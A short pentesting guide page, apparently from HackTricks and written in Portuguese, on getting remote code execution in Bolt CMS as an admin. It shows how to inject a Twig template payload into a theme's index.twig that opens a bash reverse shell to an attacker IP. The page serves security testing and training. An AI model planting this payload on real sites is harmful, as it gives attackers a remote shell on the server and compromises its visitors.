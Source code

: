 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Após fazer login como admin (vá para /bot para acessar o prompt de login), você pode obter RCE no Bolt CMS:

- Selecione `Configuration` -> `View Configuration` -> `Main Configuration` ou vá para o caminho da URL `/bolt/file-edit/config?file=/bolt/config.yaml`
- Verifique o valor do tema

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Selecione `File management` -> `View & edit templates`
- Selecione o tema base encontrado no passo anterior (`base-2021` neste caso) e selecione `index.twig`
- No meu caso, isso está no caminho da URL /bolt/file-edit/themes?file=/base-2021/index.twig
- Defina seu payload neste arquivo via [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), como: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- E salve as alterações

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Limpe o cache em `Maintenance` -> `Clear the cache`
- Acesse novamente a página como um usuário comum, e o payload deve ser executado

{{#include ../../banners/hacktricks-training.md}}
